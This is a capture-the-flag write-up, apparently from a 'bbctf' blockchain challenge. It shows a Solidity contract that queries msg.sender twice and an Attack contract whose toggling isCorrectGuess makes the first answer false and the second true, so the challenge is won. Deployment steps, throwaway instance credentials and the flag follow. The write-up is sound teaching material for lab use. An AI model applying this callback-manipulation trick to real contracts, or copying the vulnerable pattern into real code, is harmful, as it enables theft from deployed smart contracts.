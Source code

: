 ### setup.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Chal.sol";
contract Setup {
    Challenge public immutable instance;
    constructor() payable {
        instance = new Challenge();
    }
    function isSolved() public view returns (bool) {
        return instance.win();
    }
}
```

### Chall.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
interface Checker {
    function isCorrectGuess(uint256) external returns (bool);
}
contract Challenge {
    bool public win;
    uint256 public guess;
    function makeAGuess(uint256 _guess) public {
        Checker checker = Checker(msg.sender);
        if (!checker.isCorrectGuess(_guess)) {
            guess = _guess;
            win = checker.isCorrectGuess(guess);
        }
    }
}
```

we got a server which will manage instace for our challenge at by generating a secret from `get_ticket.py` 
`nc blockchain.bbctf.fluxus.co.in 5001`

![[instance_server.png]]
launch a instance and you will get 
``` python
uuid = "5759cffc-c638-451e-b41b-b8a15469ad49"
rpc_endpoint = "http://chal.bbctf.fluxus.co.in:8545/5759cffc-c638-451e-b41b-b8a15469ad49"
privatekey = "0xa9622978b37457dc8d5bb76996c8a166bc04fe8db0907dcba98ee7d7f4009f35"
youraddress = "0x5f20EdbCAa04777a636fF9564Ea9a96bA82af5A4"
setupcontract = "0x9C7fF8BCF007AA7041346f1c68C149b1469eA983"
```
## Ananlysis
- In `setup.sol` if you call `instance` it will return the address of the chall contract.
- `chall.sol` has wierd behaviour frist it will check wetather checker isCorrectGuess(_guess_) is `false` and to win next step it should be `true`.
-  `msg.sender` is address of sender so definatly we have to make a exploit contract.
- we have somthing called interface which we will get back to it later.
## Failed steps
## Research
I don't know much about solidity so i started learning how interface works.
[Contracts — Solidity 0.8.17 documentation (soliditylang.org)](https://docs.soliditylang.org/en/v0.8.17/contracts.html#interfaces)
https://www.youtube.com/watch?v=tbjyc-VQaQo
https://www.youtube.com/watch?v=hzH6fgKhSMg
Here is quick summary
- You can use contract address to directly talk with the contract insted of importing or adding its code to our contact.
- In this challange we have to specify the address of the interface contract with `msg.sender`.

## Exploit planning

we have to make a new contract which will call `makeAGuess` in `chall.sol` due to that  `isCorrectGuess`  in same contract should be called which initially returns `false` and in next call it should return `true`.

### exploit.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
import "./Chal.sol";
contract Attack{
    bool public retBool = true;
    Challenge public target;
    constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
    function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
    function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
}
```
ok! it overwelming let's see it line by line
```solidity
import "./Chal.sol";
```
refrence with `setup.sol` we can get a instance of challange 

lets see `Attack` contract line by line.
```solidity
Challenge public target;
bool public retBool = true;
```
here we are making a object of `Challenge` class so that we can call `makeAGuess`.
next a toggler to return bool value
```solidity
 constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
```
`target = Challenge(_targetAddress);` will create a reference to the contract `Challenge`. Doing so allows you to call public functions of that contract. Now you can call `target.whateverFunctionItHas()` which will call the function on the contract at the address.
```solidity
function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
```
this function when called frist time returns `false` and next time return `true`
```solidity
function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
```
this function initaits our attack by calling `target.makeAGuess(_guess)`->`!checker.isCorrectGuess(_guess)` ->`checker.isCorrectGuess(_guess)`-> win is True now

## Exploit!!!

![[setting_rpc.png]]
Add ur PRC Url and ChainId
![[import_Account.png]]
import your account to metamask
![[got_account.png]]
now open Remix connect it with your wallet and account. intracct with deployed setup contract by passting its address to AtAddress input box with `setup_contract` address by opening `setup.sol`
now you will get address of challenge.
![[setup_contract.png]]
now add Challenge contract which you can have to intract.
![[chall_contract.png]]
now lets deploy attack contract by giving address which we got from instance in setup.
![[attack_contract.png]]
just give some value to guessIt and call get the flag by connecting to server and clicking on get flag with ur team_secret 
![[instance_server.png]]
FLAG:
	```flag{A1l_17s_r3quirED_is_a_1iI7lE_5oliDity}```
That's how we got second blood and only 2 teams solved it.i learned so much while solving this challenge but i got deep understanding after writing this writeup.